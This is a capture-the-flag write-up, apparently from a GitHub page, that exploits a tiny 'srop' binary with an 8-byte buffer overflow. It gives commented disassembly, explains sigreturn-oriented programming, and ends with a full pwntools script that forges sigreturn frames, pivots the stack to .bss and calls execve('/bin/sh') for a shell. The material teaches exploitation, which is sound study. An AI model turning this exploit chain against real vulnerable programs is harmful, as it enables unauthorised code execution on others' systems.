 We will start by inspecting the assembly of our binary. 

Commented output of `objdump -d -M intel srop`

```
0000000000401000 <_start>:
  401000:       e8 08 00 00 00          call   40100d <main>
# Call exit syscall
  401005:       b8 3c 00 00 00          mov    eax,0x3c
  40100a:       0f 05                   syscall 
  40100c:       c3                      ret    

000000000040100d <main>:
# Setup a stackframe of size 8
# Allocates a buffer of size 8
  40100d:       55                      push   rbp
  40100e:       48 89 e5                mov    rbp,rsp
  401011:       48 83 ec 08             sub    rsp,0x8
# Call _read(buffer)
  401015:       48 8d 7d f8             lea    rdi,[rbp-0x8]
  401019:       e8 05 00 00 00          call   401023 <_read>
  40101e:       48 89 ec                mov    rsp,rbp
  401021:       5d                      pop    rbp
  401022:       c3                      ret    

0000000000401023 <_read>:
# Call the syscall read(0, buffer, 0x200)
  401023:       55                      push   rbp
  401024:       48 89 e5                mov    rbp,rsp
  401027:       48 83 ec 08             sub    rsp,0x8
  40102b:       48 89 fe                mov    rsi,rdi
  40102e:       bf 00 00 00 00          mov    edi,0x0
  401033:       ba 00 02 00 00          mov    edx,0x200
  401038:       b8 00 00 00 00          mov    eax,0x0
  40103d:       0f 05                   syscall 
  40103f:       48 89 ec                mov    rsp,rbp
  401042:       5d                      pop    rbp
  401043:       c3                      ret    
```

This binary is very small and is especially challenging. It just reads a string
from the user, does nothing with it, then exits. There is a buffer overflow when
we call the read syscall since our buffer is only 8 bytes long. However, it's
difficult to do anything with this buffer overflow.

There is a significant lack of ROP gadgets in this binary and we cannot jump to
libc since libc is not even linked. We can still exploit this problem with a
technique known as sigreturn oriented programming.

Sigreturn is a syscall used by Linux signal handlers when context switching.
When a program is interrupted, the kernel pushes the entire execution context
onto the stack then jumps to the signal handler. When the signal handler is
finished, it calls sigreturn which restores the execution state from the stack.

The idea behind sigreturn oriented programming is that if we can call sigreturn
with a forged sigreturn struct at RSP, we can populate every register with user
controlled values.

With this idea in mind, we first need to figure out how to call the sigreturn
syscall. The syscall number for `sigreturn` is `0xf`. There are `syscall`
gadgets in our binary, so the first challenge is just to set `rax = 0xf`.
Fortunately for us, the `read` syscall sets `rax` to the number of bytes read.
Consider the following ROP chain:

```
[ overflow bytes  ]
[ saved rbp       ]
[ main            ] <== rsp
[ syscall         ]
[ sigreturn frame ]
```

This ropchain will call main, we can enter 15 bytes. This will set `rax = 0xf`
then the ropchain will perform a syscall. Notice that by this point `RSP` will
be pointing to the top of our fake sigreturn frame. So this rop chain will
properly call sigreturn and will give us control over all registers.

The next challenge is to figure out how to actually exploit this program. There
are probably several ways to solve this problem (mprotect, execve, etc). I chose
to use execve for simplicity. To call `execve('/bin/sh')` we need to write
`/bin/sh` to a known address in memory. To do this, I used the sigreturn call to
change `RSP` and `RBP` to static writeable addresses, then called main again.
The sigreturn frame looks something like this:

```
[RIP -> main]
[RBP -> .bss] (.bss is a writeable section located at 0x402000)
[RSP -> .bss] (check readelf -S srop for more info)
```

Now we're just executing main, but we know `RSP` and `RBP`. We can reuse our
original ropchain with the string `/bin/sh` appended. This time our sigreturn
frame will look something like this. We will also append a pointer to the
`/bin/sh` string so properly set the argv value for execve.

```
[RIP -> syscall gadget]
[RBP -> .bss] (.bss is a writeable section located at 0x402000)
[RSP -> .bss] (check readelf -S srop for more info)
[RDI -> /bin/sh string]
[RSI -> pointer to /bin/sh]
[RDX -> NULL]
```

After this ropchain executes, we'll call `execve('/bin/sh', {'/bin/sh', NULL}, NULL)`.

Here's the code
```python
from pwn import *

r = process("./srop")
e = ELF("./srop")
rop = ROP(e)

context.clear(arch='amd64')
context.terminal = ["tmux", "splitw", "-h"]

# Middle of the bss segment
# We can't use the beginning because the stack grows downward
# We can't use the end because the string we're writing grows upward
writeable = e.bss() + (0x1000 // 2)

# Sigreturn frame for stack pivot
frame = SigreturnFrame()
frame.rbp = writeable
frame.rsp = writeable
frame.rip = (e.symbols["main"])

# Payload to execute stack pivot
payload = 0x10*b'a'
payload += p64(e.symbols["main"])
payload += p64(rop.find_gadget(["syscall"])[0])
payload += bytes(frame)

# Sleep because I had issues with some sort of race condition
r.sendline(payload)
sleep(1)

# Sigreturn is syscall 0xf
# -1 due to the newline
syscall = 0xf-1
r.sendline(b'a'*syscall)
sleep(1)

# Sigreturn frame for calling execve
frame = SigreturnFrame()
frame.rbp = writeable
frame.rsp = writeable
frame.rip = (rop.find_gadget(["syscall"])[0])
# Execve is syscall number 59
frame.rax = 59
# I just calculated these addresses in gdb
frame.rdi = e.bss() + 0x908
frame.rsi = e.bss() + 0x910
frame.rdx = e.bss()

# Payload to run execve
payload = 0x10*b'b'
payload += p64(e.symbols["main"])
payload += p64(rop.find_gadget(["syscall"])[0])
payload += bytes(frame) + b'/bin/sh\x00' + p64(e.bss() + 0x908) + p64(0)

r.sendline(payload)
sleep(1)

syscall = 0xf-1
r.sendline(b'c'*syscall)

r.interactive()
```
